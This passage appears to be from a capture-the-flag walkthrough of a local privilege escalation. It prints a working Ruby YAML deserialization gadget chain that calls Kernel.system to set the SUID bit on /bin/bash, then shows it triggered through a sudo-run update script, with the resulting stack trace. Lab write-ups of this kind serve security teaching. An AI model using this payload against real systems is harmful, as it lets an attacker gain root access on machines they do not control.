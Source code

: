 ```text
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

Here I'm setting the SUID bit on bash.

We can execute the script, which will also run our malicious dependencies.yml file:

```text
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
    33: from /opt/update_dependencies.rb:17:in `<main>'
    32: from /opt/update_dependencies.rb:10:in `list_from_file'
    31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
    30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
    29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
    28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
    27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
    26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
    25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
    24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
    23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
    22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
    21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
    20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
    19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
    18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
    17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
    16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
    15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
    14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
    13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
    12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
    11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
    10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
     9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
     8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
     7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
     6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
     5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
     4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
     3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
     2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
     1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
```